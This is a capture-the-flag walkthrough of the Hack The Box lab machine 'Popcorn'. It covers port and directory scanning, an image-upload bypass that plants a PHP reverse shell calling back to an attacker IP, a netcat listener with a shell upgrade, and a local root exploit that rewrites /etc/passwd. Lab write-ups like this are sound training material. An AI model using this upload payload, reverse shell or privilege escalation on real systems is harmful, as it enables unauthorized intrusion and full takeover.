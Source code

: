 ## Popcorn

Difficulty: Medium
Machine IP: 10.10.10.6

## Scanning

### Nmap Scanning

```bash
$ nmap -sC -sV  -oA nmap/popcorn.nmap 10.10.10.6                                                                                                                                        4 ⚙
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-28 18:47 EDT
Nmap scan report for 10.10.10.6
Host is up (0.093s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.94 seconds
```

## Enumeration

### gobuster

```bash
$ gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u  http://10.10.10.6 -t 20 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.6
[+] Threads:        20
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/08/28 18:49:16 Starting gobuster
===============================================================
/index (Status: 200)
/test (Status: 200)
/torrent (Status: 301)
/rename (Status: 301)
```

- Torrent page

![torrent_page](images/toorent_page.PNG)

- create an account and upload a torrent file and submit
- then `edit` the screenshot with some random png file and capture the request.
- Noe change it to..
```php
Content-Disposition: form-data; name="file"; filename="feed2.png.php"
Content-Type: image/png

�PNG
�
IHDR�,�1d�IT    pHYs

                    ��~�tEXtSoftwareMacromedia Fireworks 8�h�xtEXtCreation Time06/01/07[� � IDATx���w�%Gy�����&����j�6���J$AX`�@p�����,l��^� �026�p-cc&.?	�+!$���Z�v�9N�9���~�	�}�Ϝ��Y�@��̜��
ou}���]��1f����q0�/U����Ǟ�M��}�?9~\�Г� D�E���Hn�F܁�;�������ڷ\�	�]�������(
c�9Sy�/;�}QP�������`��,E

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.7/5555 0>&1'");?> 

```
and submit.

- Setup the listenr on kali and open the image by clicking on it.

__Result__

```bash
$ nc -lvnp  5555            
listening on [any] 5555 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.6] 60615
bash: no job control in this shell
www-data@popcorn:/var/www/torrent/upload$ python -c 'import pty; pty.spawn("/bin/bash")'
<orrent/upload$ python -c 'import pty; pty.spawn("/bin/bash")'               
www-data@popcorn:/var/www/torrent/upload$ which bash
which bash
/bin/bash
www-data@popcorn:/var/www/torrent/upload$ cd /home 
cd /home
www-data@popcorn:/home$ ls
ls
george
```


## Privilege Escalation

- Found `.cache` folder container a interesting file
```bash
root@popcorn:/home/george/.cache# ls -la
ls -la
total 8
drwxr-xr-x 2 george george 4096 2017-03-17 18:58 .
drwxr-xr-x 3 george george 4096 2020-10-26 19:35 ..
-rw-r--r-- 1 george george    0 2017-03-17 18:58 motd.legal-displayed
```
- On simple `exploit-db` search found two priv esc exploits and found one working

![priv_esc_exploit_db](images/priv_esc_exploit_db.PNG)

- now copy the exploit and run 

```bash
www-data@popcorn:/tmp$ chmod +x exploit.sh
chmod +x exploit.sh
www-data@popcorn:/tmp$ ./exploit.sh
./exploit.sh
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password: toor
```

__Result__
```bash
Password: toor

root@popcorn:/tmp# 	id
id
uid=0(root) gid=0(root) groups=0(root)
```
